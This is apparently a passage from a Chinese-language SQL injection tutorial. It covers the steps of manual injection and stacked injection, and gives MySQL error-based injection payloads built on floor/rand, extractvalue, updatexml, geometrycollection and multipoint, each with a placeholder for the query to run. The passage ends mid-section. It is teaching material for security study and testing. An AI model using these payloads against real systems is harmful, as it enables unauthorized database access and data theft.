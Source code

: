 ## 2.3 手动注入基本步骤  
1. 寻找注入点；  
2. 判断参数类型，以及闭合符号；  
3. 判断字段个数；`order by <idnumber>`；  
4. 判断回显位；`?id=-1 union select 1,2,3`  
5. 利用注入查询基本信息。  
  
## 2.4 注入方法  
### 2.4.1 堆叠注入  
Stacked injections（堆叠注），一堆 sql 语句(多条)一起执行。`;` 是用来表示一条 sql 语句的结束。叠注入可以执行的是任意的语句.  
局限性：可能受到 API或者数据库引擎不支持的限制。  
  
### 2.4.2 报错注入  
人为去制造错误条件，使得查询结果能够出现在错误信息中。  
适用于有报错回显，无法使用 union，但是没有数据回显的情况。  
以下所有方法都需要注意 MySQL 的版本  
  
#### 2.4.2.1 `floor(number)`数学函数，用于向下取整。  
- `x`代表的是：`concat(user(),floor(rand(0)*2))`的别名  
- `a`代表的是：`select count(*),concat(<SQL>,floor(rand(0)*2))x from information_schema.tables group by x`的别名  
- `<SQL>`：可以替换为各种需要获取的信息语句  
```MySQL 
select * from test where id=1 and (select 1 from (select count(*),concat(<SQL>,floor(rand(0)*2))x from information_schema.tables group by x)a);  
```
#### 2.4.2.2 `extractvalue(xml_document, xpath_expr)`：用于提取 XML 文档中的数据。  
- 因 xpath 表达式错误而报错，但是会执行其中的 SQL 语句。  
- `xml_document`：xml 文档。  
- `xpath_expr`：XPath 表达式，用于指定要提取的节点。  
- `<SQL>`：可以替换为各种需要获取的信息语句  
```MySQL
select * from test where id=1 and (extractvalue(1,concat(0x7e,(<SQL>),0x7e)));    
```
#### 2.4.2.3 `updatexml(xml_target, xpath_expr, new_val)`：用于在 XML 数据中更新或插入值。  
- 因 xpath 表达式错误而报错，但是会执行其中的 SQL 语句。  
- `xml_target`：要更新的 XML 数据。  
- `xpath_expr`：要更新的节点路径。  
- `new_val`：新值。  
- `<SQL>`：可以替换为各种需要获取的信息语句  
```MySQL
select * from test where id=1 and (updatexml(1,concat(0x7e,(<SQL>),0x7e),1));  
```
#### 2.4.2.4 `geometrycollection()`：用于创建一个几何图形集合对象的函数。  
- `<SQL>`：可以替换为各种需要获取的信息语句  
```MySQL
# 方法1：  
select geometrycollection((select * from(select * from(<SQL>)a)b));  
# 方法2：  
SELECT geometrycollection((select * from(select count(*),concat((<SQL>),floor(rand(0)*2))x from information_schema.tables group by x)a));  
```
#### 2.4.2.5 `multipoint()`：空间数据类型函数，用于创建一个多点对象  
- `<SQL>`：可以替换为各种需要获取的信息语句  
```MySQL
# 方法1：  
select * from user_info where id=1 and multipoint((select * from(select * from(<SQL>)a)b));  
# 方法2：  
```